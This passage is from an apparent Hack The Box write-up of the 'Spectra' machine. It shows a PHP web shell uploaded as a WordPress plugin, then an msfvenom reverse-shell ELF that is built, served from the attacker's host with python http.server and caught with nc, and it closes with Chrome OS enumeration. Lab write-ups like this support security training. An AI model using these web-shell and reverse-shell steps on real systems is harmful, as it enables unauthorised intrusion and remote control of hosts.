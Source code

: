 Obtained high privileges over the wordpress installation allowed to upload a malicious plugin and get command execution on the box.

Web Shell: [https://github.com/xl7dev/WebShell/blob/master/Php/WordPress%20Shell.php](https://github.com/xl7dev/WebShell/blob/master/Php/WordPress%20Shell.php)

Uploaded the webshell plugin (zipped php):
![Pasted image 20210509000355.png]({{page.screenshots}}Pasted image 20210509000355.png)

Code execution obtained in the context of the `nginx` user:
![Pasted image 20210509001300.png]({{page.screenshots}}Pasted image 20210509001300.png)
![Pasted image 20210509001940.png]({{page.screenshots}}Pasted image 20210509001940.png)

From there, a reverse shell was generated and hosted using msfvenom and http.server python module :
```bash
┌──(kali㉿kali)-[~/…/HTB/box/Spectra/exploit]
└─$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.24 LPORT=10099 -f elf -o rs.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 68 bytes
Final size of elf file: 152 bytes
Saved as: rs.elf

┌──(kali㉿kali)-[~/…/HTB/box/Spectra/exploit]
└─$ sudo python3 -m http.server 80
[sudo] password for kali:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.229 - - [08/May/2021 18:16:41] "GET /rs.elf HTTP/1.1" 200 -
```

Then the reverse shell was downloaded and executed in order to get an interactive persistent shell:
![Pasted image 20210509002203.png]({{page.screenshots}}Pasted image 20210509002203.png)
![Pasted image 20210509002224.png]({{page.screenshots}}Pasted image 20210509002224.png)
![Pasted image 20210509002243.png]({{page.screenshots}}Pasted image 20210509002243.png)

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Spectra/exploit]
└─$ nc -nlvp 10099
listening on [any] 10099 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.229] 44138
id
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
```


## Lateral Movement
Local enumeration showed that the target was a **Chrome OS** system:
```bash
uname -a
Linux spectra 5.4.66+ #1 SMP Tue Dec 22 13:39:49 UTC 2020 x86_64 AMD EPYC 7401P 24-Core Processor AuthenticAMD GNU/Linux
cat /etc/*-release
BUILD_NUMBER=22
CHROMEOVER_BUILD_COMMIT=829e617e7b8467c355f9bd61f87835bfeb0da547
CHROMIUMOS_MANIFEST_COMMIT=38c4f6ca60a47f7fabf0fcd5d6feabf349e3f002
CHROMIUM_BROWSER_COMMIT=ef24d0b3349c2324d18a3f32bc35d14e796aeddc
PIPELINE_TAG=prod
USE_FLAGS=-cros-debug beerover virtualbox
GOOGLE_RELEASE=87.3.41
CHROMEOS_RELEASE_BRANCH_NUMBER=85
CHROMEOS_RELEASE_TRACK=stable-channel
CHROMEOS_RELEASE_KEYSET=devkeys
```